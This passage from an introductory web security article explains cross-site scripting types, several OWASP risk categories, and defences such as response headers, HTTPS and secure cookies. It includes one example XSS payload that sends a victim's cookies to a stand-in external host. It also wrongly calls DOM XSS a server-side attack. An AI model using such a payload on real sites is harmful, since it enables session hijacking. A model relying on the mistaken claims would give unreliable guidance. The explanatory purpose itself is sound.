**Stored XSS —** Here, the malicious code is stored in the database which is high-risk cross-site scripting. Then the victim is able to retrieve the stored data from the web application

**DOM XSS —** In this the attackers manipulate the DOM which is then sent as the payload executing the HTTP request. This is determined to be a server-side attack

**For example —**

_The application can pass untrusted and unwanted data in the HTML input_


```
<script>window.location = 'xyza.com? cookie=' + document.cookie</script></span>
```


### **8\. Insecure deserialization**

Insecure deserialization can lead to remote code execution, access-control-related attacks and tampering attacks

### **9\. Using Components With Known Vulnerabilities**

This basically relates to the third-party modules. Most of the developers may not know which version of modules are added into the applications which make it difficult to update components with security patches. Attackers may steal sensitive information

### **10\. Insufficient Logging and Monitoring**

Logging and monitoring systems should be implemented to report the failures responses in a timely. It should take a maximum of 24 hrs to report the incident and trigger the alert to prevent damages caused to the system. The attackers rely on lack of monitoring and timely response to maintain persistent threats.

**Now, let's discuss some more techniques and tools used to secure and test the web applications**

## **Http Response Headers**

Implementing Http Response Headers aims to secure the browser vulnerabilities by enabling both the HTTP client and server to send and receive metadata about the connection to be established, the resource being requested, as well as the returned resource itself, thus balancing the usability and security of the application

## **SSL / HTTPS**

SSL (Secured socket layer) operates at the presentation layer in the **OSI model**. SSL encryption is done between the web browser and the web server around the HTTP protocol. Use of SSL/HTTPS ensured the data is encrypted while interacting with users data into the browsers. Its extremely important to add security to log in, checkout, cart, account pages with SSL

## **Cookies**

Using the **“secure”** flag while setting the cookies to avoid the disclosure of a cookie containing a piece of sensitive information. The current version of browsers has this built-in security. Sensitive information like passwords must not be stored inside cookies, otherwise, this may get cached on the client-side. Using headers to disable caching to reduce the risk of leaking data due to caching
